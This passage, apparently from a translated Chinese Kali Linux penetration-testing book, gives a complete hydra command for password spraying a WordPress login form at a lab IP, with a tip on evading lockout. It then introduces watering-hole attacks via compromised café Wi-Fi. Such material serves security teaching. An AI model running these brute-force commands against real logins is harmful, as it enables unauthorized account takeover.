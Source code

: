 在我们的练习中，创建了两个自定义单词列表：第一个单词列表包含可能的用户名列表，第二个包含可能的密码列表。在 Kali Linux 上使用`hydra`工具，您将能够对目标 WordPress 服务器执行**密码喷洒**攻击。

7.  使用`hydra`可以得到以下语法：

```
hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>
```

8.  替换语法中的每个值，我们得到以下命令：

```
hydra -L usernames.txt -P custom_list.txt 10.10.10.22 http-form-post "/wp-login. php: log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.22%2Fwp-admin% 2F&testcookie=l: Invalid username" -V
```

9.  将`uname`替换为`^USER^`，将`pass`替换为`^PASS^`，我们可以告诉`hydra`这是用户名和密码字段。此外，`–V`被指定在终端窗口上生成详细输出。
10.  执行命令后，以下是预期输出的示例。以`[80] [http-post-form]`开头的行为目标提供可能有效的用户名和密码，如以下屏幕截图所示：

![](img/b4691dc9-934c-40d6-b28b-e8bd218891f2.png)

确保检查每个用户名和密码，以验证其在目标系统上的真实性。快速向目标系统发射用户名和密码可能会导致锁定并阻止我们端的攻击。要在两次尝试之间创建 10 秒的等待时间，请使用`-w 10`参数。这是可选的；但是，它可以减少被目标锁定或阻止的机会。

在下一节中，我们将介绍水坑攻击的要点。

# 设置水坑攻击

在 IT 安全领域，了解各种类型的攻击和威胁非常重要。其中一些攻击有一些非常不寻常的名称，在本节中，我们将介绍**水坑攻击**的基本原理。

假设您是一家公司的 IT 安全管理员或工程师。您已经实现了业界最好的安全设备，能够主动检测和防止任何类型的威胁，无论是内部威胁还是外部威胁。您还实施了行业最佳实践，遵守了标准，并确保您的用户（组织的员工）经常接受用户安全实践方面的培训。您已经在组织内部建立了一个安全堡垒，并确保网络周边也能防范新的和正在出现的威胁。

攻击者会注意到他们无法渗透您的网络，甚至网络钓鱼电子邮件等社会工程技术也无法成功攻击您的组织。这将给组织（目标）带来巨大的挑战，因为它受到了很好的保护。执行此操作的一种方法是执行水坑攻击。

想象一下，在他们的午餐休息时间，一些员工去附近的咖啡馆喝冷热饮料。黑客可能正在监视一个组织的员工的活动，他们说他们经常在休息时间甚至下班后访问包含公共 Wi-Fi 的地方。假设有一群员工经常光顾当地的咖啡馆。攻击者可以破坏咖啡店的 Wi-Fi 网络，并植入有效负载，下载到连接到网络的任何设备并在后台运行。
